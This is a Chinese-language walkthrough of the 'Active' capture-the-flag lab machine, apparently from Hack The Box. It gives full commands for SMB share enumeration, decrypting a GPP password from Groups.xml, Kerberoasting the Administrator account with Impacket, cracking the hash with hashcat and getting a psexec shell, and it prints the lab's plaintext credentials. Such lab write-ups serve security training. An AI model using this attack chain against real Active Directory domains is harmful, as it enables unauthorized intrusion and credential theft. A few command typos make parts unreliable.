 ```yaml
---
description: Easy / SMB共享 / 枚举
---
```


# ✔️ Active

## 建立立足点

### 信息收集&枚举

* 使用Nmap对目标系统进行开放端口扫描：

<figure><img src="../../.gitbook/assets/1 (5).png" alt=""><figcaption></figcaption></figure>

* 顺便把IP地址和域名写进/etc/hosts中，以便后续使用：

<figure><img src="../../.gitbook/assets/2 (5).png" alt=""><figcaption></figcaption></figure>

* 使用Nmap查找一下相关的SMB漏洞：

```bash
# 过滤出本机上关于smb漏洞扫描的脚本：
local -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
```

<figure><img src="../../.gitbook/assets/3 (5).png" alt=""><figcaption></figcaption></figure>

```bash
nmap --script safe -p 445 10.129.85.245
```

<figure><img src="../../.gitbook/assets/4 (6).png" alt=""><figcaption></figcaption></figure>

没有什么收获：

<figure><img src="../../.gitbook/assets/6 (6).png" alt=""><figcaption></figcaption></figure>

查找到当前目标系统中SMB服务是2.0版本，使用smb-enum-services脚本也无收获，该脚本貌似是作用于SMB 1.0版本的：

<figure><img src="../../.gitbook/assets/7 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (8).png" alt=""><figcaption></figcaption></figure>

* 尝试匿名登录SMB服务，并枚举其所有共享目录：

```bash
smbclient -L 10.129.85.245
```

<figure><img src="../../.gitbook/assets/9 (6).png" alt=""><figcaption></figcaption></figure>

分别用enum4linux和smbmap这两种工具对这些共享目录进行枚举以及确认当前权限：

```bash
# enum4linux：
enum4linux 10.129.85.245
# smbmap:
smbmap -H 10.129.85.245
```

<figure><img src="../../.gitbook/assets/10 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
smbmap比enum4linux好用
{% endhint %}

* 以上两个工具的输出结果显示，当前这个匿名登录账户对\`/Replication\`目录是可读的，因此可以把该目录下的所有文件内容递归下载到我的Kali本机中，再逐个查看其内容是否有可以利用的信息：

```bash
smbclient //10.129.85.245/Replication
# 连接上之后，依次执行：
RECURSE ON
PROMPT OFF
mget *
```

<figure><img src="../../.gitbook/assets/5 (6).png" alt=""><figcaption></figcaption></figure>

* 在查看各个文件夹内容后，发现路径/{31B2F346-616D-11D2-945F-06C64FB984F9}/MACHTNE/Preferences/Groups目录下有个\`Groups.xml\`文件，这个文件中会用用户名和加密后的密码信息：

<figure><img src="../../.gitbook/assets/14 (4).png" alt=""><figcaption></figcaption></figure>

* 用gpp-decrypt解码后获得明文密码：

<figure><img src="../../.gitbook/assets/15 (5).png" alt=""><figcaption></figcaption></figure>

* 此时已获得有效凭证<mark style="color:red;">**svg\_tgs:GPPstillStandingStrong2k18**</mark>

### GET SHELL

* 利用已获得的有效凭证再次枚举目标系统的SMB服务，看看是否获得了更多的信息和权限：

```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.138.113
```

<figure><img src="../../.gitbook/assets/16 (4).png" alt=""><figcaption></figcaption></figure>

* 果然发现多了几个共享目录可读。但与此同时，也用Impacket的GetADUsers.py脚本枚举除了目标系统上所有的用户：

```bash
python3 GetADUsers.py -all active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.138.113
```

<figure><img src="../../.gitbook/assets/17 (4).png" alt=""><figcaption></figcaption></figure>

* 貌似/Users目录有东西，用凭证登录后逐一查看发现flag：

```bash
smbclient //10.129.138.113/Users -U SVC_TGS%GPPstillStandingStrong2k18
ls
```

<figure><img src="../../.gitbook/assets/18 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本机信息收集&枚举

* 使用ldapsearch查询活动账户在域控中的属性，过滤出特定目标账户：

```bash
ldapsearch -x -H 'ldap://10.129.138.113' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname |grep sAMAccountName
```

<figure><img src="../../.gitbook/assets/22 (2).png" alt=""><figcaption></figcaption></figure>

```bash
ldapsearch -x -H 'ldap://10.129.138.113' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))"
serviceprincipalname | grep -B 1 servicePrincipalName
```

<figure><img src="../../.gitbook/assets/23 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 使用GetUserSPNs.py脚本，提取Administrator的hash:

```bash
python3 GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.129.138.113 -request
```

<figure><img src="../../.gitbook/assets/25 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将输出的哈希值存为hash.txt文件，然后用hashcat对它进行爆破以获取Administrator的明文密码：

```bash
hashcat -m 13100 hash.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/26 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/28 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 此时已获得了管理员的明文密码<mark style="color:red;">**Ticketmaster1968，**</mark>配合psexec.py脚本获得管理员shell，成功root：

```bash
python3 psexec.py active.htb/Administrator@10.129.138.113 
```

<figure><img src="../../.gitbook/assets/29 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获得flag：

<figure><img src="../../.gitbook/assets/30 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



{% hint style="info" %}
本例的考察重点是对目标SMB共享资源的枚举，属于简单级别的机器。

(本例机器重置过，所以IP地址中途有所改变，但不影响利用过程和结果)
{% endhint %}

